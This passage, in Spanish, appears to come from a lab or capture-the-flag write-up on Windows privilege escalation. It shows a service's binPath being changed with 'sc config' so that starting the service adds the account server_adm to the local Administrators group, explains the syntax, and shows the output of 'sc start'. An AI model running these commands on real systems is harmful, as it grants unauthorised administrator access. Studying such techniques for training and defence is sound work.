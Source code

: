 ## 5) Modificar la ruta binaria del servicio (Service Binary Path)

**Comando usado**:

```
sc config AppReadiness binPath= "cmd /c net localgroup Administrators server_adm /add"
```

**Explicación detallada de la sintaxis**:

* `sc config AppReadiness` : modifica la configuración del servicio `AppReadiness`.
* `binPath=` : parámetro que indica la nueva ruta del ejecutable que el servicio intentará correr cuando se inicie.

  * Nota de sintaxis: `sc` requiere el signo `=` y a menudo un espacio después (como aparece en el ejemplo).
* El valor entre comillas: `"cmd /c net localgroup Administrators server_adm /add"`.

  * `cmd` : invoca el intérprete de comandos de Windows.
  * `/c` : instrucción a `cmd` para que ejecute el comando que sigue y luego termine.
  * `net localgroup Administrators server_adm /add` : comando que añade la cuenta `server_adm` al grupo local `Administrators`.

**Resultado mostrado**:

```
[SC] ChangeServiceConfig SUCCESS
```

* Indica que la modificación de la configuración del servicio (binPath) fue aceptada.

---

## 6) Intento de iniciar el servicio

**Comando usado**:

```
sc start AppReadiness
```

**Resultado**:

```
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.
```

**Interpretación**:

* Aunque la ruta binaria fue cambiada, al intentar iniciar el servicio Windows devolvió error `1053` indicando que el servicio no respondió correctamente al intento de inicio.
* Esto era esperado en el texto (no se esperaba que el servicio se iniciara correctamente con `cmd /c ...`).

---
